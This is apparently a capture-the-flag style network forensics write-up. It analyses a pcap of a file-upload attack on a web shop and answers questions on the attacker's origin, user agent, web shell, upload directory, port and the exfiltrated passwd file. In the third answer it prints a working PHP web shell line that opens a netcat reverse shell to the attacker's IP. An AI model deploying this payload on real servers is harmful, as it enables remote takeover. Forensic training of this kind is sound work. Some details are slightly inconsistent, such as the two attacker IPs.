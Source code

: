 Category: Network Forensics

> THIS NEEDS TO BE REVISED FIRST
#### Scenario
An anomaly was discovered within our company's intranet as our Development team found an unusual file on one of our web servers. Suspecting potential malicious activity, the network team has prapared a pcap file with critical network traffic for analysis for the security team, and you have been tasked with analyzing the pcap

1. Understanding the geographical origin of the attack aids in geo-blocking measures and threat intelligence analysis. What city did the attack originate from?
- This is a simple case of geolocating using IP addresses. On Wireshark, I found the attackers IP by going to the Statistics => Conversations => IPv4. 117.11.88.128 is the IP address of the attacker. Plugging this into ipgeolocation.io. I get the country of chine and the city of **Tianjin**.
  
  
2. Knowing the attacker's user-agent assists in creating robust filtering rules. What's the attacker's user agent?
   -  The user-agent is found the HTTP traffic, I picked a packet that has the GET method, because its the first thing I saw--you can pick any HTTP traffic that has a HTTP header in request. You will see in header of the request, in the user-agent line a value of **Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0**
     
3. We need to identify if there were potential vulnerabilities exploited. What's the name of the malicious web shell uploaded?
	   - Going to the Protocol Hierarchy, I immediately saw the "Compuserve GIF" and remembered that the traffic was filled with request for different resources in the site, taking into account the question where it stated a file was uploaded, I immediately extracted all the files in the pcap file. Looking around I can see os command injections being done. Looking at the "upload(2).php" file we can see that a filename of "image.png.php" was uploaded and a php line of code with the function of executing a shell and using netcat to connect to the attackers IP address and a port of 8080. This essentially establishes a backdoor, allowing the attacker to interact with the compromised server remotely
	- line of code 
	```php
<?php system ("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 117.11.88.124 8080 >/tmp/f");
```
     
     
4. Knowing the directory where files uploaded are stored is important for reinforcing defenses against unauthorized access. Which directory is used by the website to store uploaded files?
	- Looking further in the files extracted, in the upload(2) html response, we can see that a document was moved to the `http://shoporoma.com/reviews/uploads/` directory, which indicates that the malicious script was stored there. 

5. Identifying the port utilized by the web shell helps improve firewall configurations for blocking unauthorized outbound traffic. What port was used by the malicious web shell?. 
	 - This was straightforward as we already found out form the php snippet that the attacker uses leverages port 8080
6. Understanding the value of compromised data assists in prioritizing incident response actions. What file was the attacker trying to exfiltrate?
	- Going back to our extracted files, as mentioned earlier, there were logs of os commands being executed by the attacker. From finding out the current directory to getting the passwd file, which was the goal of the attacker. 


## Summary
In this scenario, the attacker found a file upload vulnerability wherein they were able to upload a malicious php script(upload(2).php). With that script it then executed a shell which connected back to the attacker, allowing for backdoor access into the system. After gaining reverse shell access, the attacker performed some recon on the environment like what directory is the attacker on, what are the files in that directory and the username of the account in the system. After that he exfiltrated the passwd file containing passwords for different accounts. 